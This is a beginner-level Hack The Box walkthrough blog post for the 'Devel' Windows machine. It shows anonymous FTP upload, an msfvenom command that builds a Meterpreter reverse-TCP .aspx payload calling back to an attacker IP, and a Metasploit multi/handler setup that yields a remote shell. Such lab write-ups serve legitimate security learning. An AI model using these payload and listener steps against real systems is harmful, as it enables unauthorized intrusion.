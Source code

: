 ```yaml
---
title: Devel
date: 2020-05-09 11:29:00
description: Hack The Box Walkthrough
featured_image: '/images/blog/devel/devel.jpg'
tags: ['Hack The Box']
---
```


Here is another box from Hack the Box (HTB) that is simple and great for beginners. In Devel's box, I'll be using Metasploit and the open FTP port to upload a webshell to gain shell access on the machine.

## Hack the box

* Operating System: Windows
* Difficulty: Easy


## Information gathering

Let's start with the nmap scan. 

<img src="/images/blog/devel/ipaddress.jpg" alt="nmap scan">

And our results are in:

<img src="/images/blog/devel/nmapresults.jpg" alt="nmap results"> 

The results look interesting. We can see that port 21 (FTP) is open, and it allows for anonymous login.

I tried logging in using the anonymous login--success. There wasn't anything interesting inside the files, but I was able to upload a file onto the FTP server. Here's what I did:

<img src="/images/blog/devel/testupload.jpg" alt="uploading a file to ftp"> 

I also tried accessing the FTP service through the web browser so that I can use Burp Suite to see if I could gain more information about this box.

Taking a look at the HTTP header, we can see that it's running ASP.NET. Meaning, we will likely be able to run a .aspx file.

<img src="/images/blog/devel/httpheader.jpg" alt="http header"> 

Let's recap. We know two things right now:

* We can upload files onto the FTP server.
* FTP is running on ASP.NET, so we can add a .aspx file.


This might be enough for us to run an exploit. We can try uploading a payload generator with .aspx extension and gain the box via reverse shell. Let's give it a shot.

## Threat modelling

The first thing we should do is create a reverse payload, we can use msfvenom by typing in:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > rev.aspx`

* `msfvenom`: Payload generator. 
* `-p`: Setting the payload. 
* `windows/meterpreter/reverse_tcp`: Payload selected. 
* `LHOST=10.10.14.24`: The IP address for lhost can be found in tun0 using ifconfig. 
* `LPORT=4444`: I just set it to 4444. 
* `-f`: Format that you'd like the payload to be saved in. 
* `aspx`: The format type. 
* `>`: All the information we just entered, will "go into..." 
* `rev.aspx`: The name of the file.

Once you press enter, the rev.aspx file will be located in your current directory. 

Next, we'll want to upload the file into the FTP service. 

<img src="/images/blog/devel/payloadftp.jpg" alt="adding payload to ftp"> 

Okay, we're pretty much ready to exploit the box. Let's start by opening up Metasploit.

## Exploitation

Once Metasploit opens, we can type in:

`use exploit/multi/handler`

This provides a listener that handles exploits that are launcehd outside of Metasploit. 

From there, I filled out the following:

* `set lhost tun0`: Sets the listening IP address.
* `set lport 4444`: This should be the LPORT you listed when we created the payload above.
* `options`: Good habit to make sure everything was filled.


Okay, it should be ready to go. We can use the `exploit` command to run it.

<img src="/images/blog/devel/metasploit.jpg" alt="metasploit multi handler"> 

It looks like it's working! We can now open the payload file that we uploaded earlier either through the web browser or by typing in another terminal window:

`curl http://10.10.10.5/rev.aspx`

Once we've opened the file, we can go back to our Metasploit terminal window--and look at that! We now have access to the box. As always, we can use the `shell` command to gain shell access, so that you can get the root.txt and user.txt file.

<img src="/images/blog/devel/shell.jpg" alt="shell access"> 

Great, another HTB machine completed.
